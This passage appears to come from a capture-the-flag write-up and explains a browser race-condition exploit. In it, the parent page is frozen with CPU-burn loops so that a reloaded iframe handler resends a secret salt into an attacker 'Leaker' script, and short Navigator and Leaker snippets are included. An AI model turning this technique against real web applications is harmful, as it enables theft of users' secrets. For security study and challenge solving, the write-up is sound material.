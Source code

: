 **Cycle B (non-cached, Shim₂ → Leaker)**

* Start a new cycle by sharing **non-cached Leaker**. Fresh **onload handler attached** for this cycle.
* On **LOAD(Shim₂)**, APP sends `{…, salt_real}` (first send; verification).
* **Freeze the parent** (CPU-burn gadget) so **ACK from Shim₂ is queued but unprocessed**. Meanwhile:

  * Shim₂ swaps to **Leaker** (our script with `onmessage=e=>leak(e.data.salt)`).
  * Separately, a **Navigator-driven navigation** completes, which will result in a **new LOAD** destined for the parent.
* **Unfreeze** the parent → queued tasks drain. With tuning:

  1. **LOAD** (from Navigator) fires **before** the **ACK**.
  2. APP’s onload handler runs **again** and **re-sends `{…, salt_real}`**, now into **Leaker**, which grabs and exfiltrates it.
  3. Only after that does the **ACK** run and remove the handler. Race won.

### Why stalling works

* The iframe lives in a separate process; it can continue completing navigations while the parent is blocked.
* We use the built-in slow gadgets:

```js
// provided by the challenge (intended/unintended gadgets)
window.onmessage = async function(e){
  if(e.data.type == 'share'){
    // can loop absurd amounts: {file:{length:1e8}}
    for (var i = 0; i < e.data.files.length; i++) { /* burn */ }
  }
  if(e.data.slow){
    for (i = e.data.slow; i--; );
  }
}
```

### Navigator & Leaker

```html
<!-- Navigator (cached) → keeps re-navigating -->
<script>
setTimeout(() => {
  location = URL.createObjectURL(
    new Blob([document.documentElement.innerHTML], {type: 'text/html'})
  );
}, 150);
</script>
```

```html
<!-- Leaker (non-cached) → catch the resend -->
<script>
onmessage = e => leak(e.data.salt);
</script>
```
